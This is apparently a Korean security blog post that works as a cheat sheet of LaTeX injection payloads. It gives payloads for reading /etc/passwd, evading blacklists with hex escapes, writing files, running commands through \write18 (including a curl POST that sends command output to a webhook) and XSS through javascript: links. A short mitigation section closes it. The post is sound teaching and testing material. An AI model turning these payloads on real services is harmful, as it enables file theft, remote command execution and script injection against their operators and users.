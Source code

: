 ```yaml
---
layout: post
title: $ \LaTeX $ Injection
subtitle: 2년동안 딱 한번 본 케이스....
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - LaTeX
  - Formula_Injection
sidebar:
---
```

## Intro
$ \LaTeX $ 란 주로 자연과학 혹은 수리 영역 논문에 사용되는 문서 작성 도구의 일종으로 $ \TeX $ 문법을 쉽게 사용하기 위해 만든 메크로 모음집이다.   

스크립트 기능이 강하기 때문에 RCE, XSS 등의 공격이 가능하여 위험도는 매우 높습니다.   
## Detect & Exploit 
### Detect
아래 사진과 같은 수식들이 보인다면 LaTeX 문법을 사용하고 있을 가능성이 큽니다.  
![](/assets/images/posts/2024-12-05-LaTeX-Injection/LaTeXInjection_Exam.png)   
### Exploit
#### Read File
```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```   

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```   
```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```   

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Bypass Blacklist 

- ^^41 == A
- ^^7e == ~   

```tex
\lstin^^70utlisting{/etc/passwd}
```

#### Write File

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

#### Command Execution

```tex
\immediate\write18{id > output}
\input{output}
```   

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```   

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```   

```tex
\immediate/write18{curl https://webhook -X POST -d a=$(id|base64)}
```

#### Cross Site Scripting

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```   

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```   
## Security Measures
사용자 입력 값이 LaTeX에 영향이 가지 않도록 하거나, 서비스 특성상
사용자가 스스로 LaTeX 문법을 이용하여 작성해야 한다면, 공격 가능한 패키지들을 포함시키지 않거나, LaTeX 문법을 실행시키는 `\`,`$` 과 같은 특수문자를 필터링해야 합니다.   
## References
[mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/autoload.html#autoload-options)   
[LaTeX Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)   
[hahwul](https://www.hahwul.com/cullinan/latex-injection/)   
